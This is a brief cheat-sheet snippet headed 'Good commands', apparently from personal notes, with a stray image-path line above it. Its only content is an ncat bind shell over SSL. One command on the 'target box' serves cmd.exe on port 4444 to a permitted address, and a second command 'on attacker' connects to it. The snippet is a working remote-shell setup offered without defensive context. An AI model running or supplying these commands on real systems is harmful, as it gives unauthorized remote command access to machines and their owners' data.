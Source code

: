 Good commands

### Bind SSL shell  
on target box

`ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`

on attacker

`ncat -v 10.0.0.22 4444 --ssl`
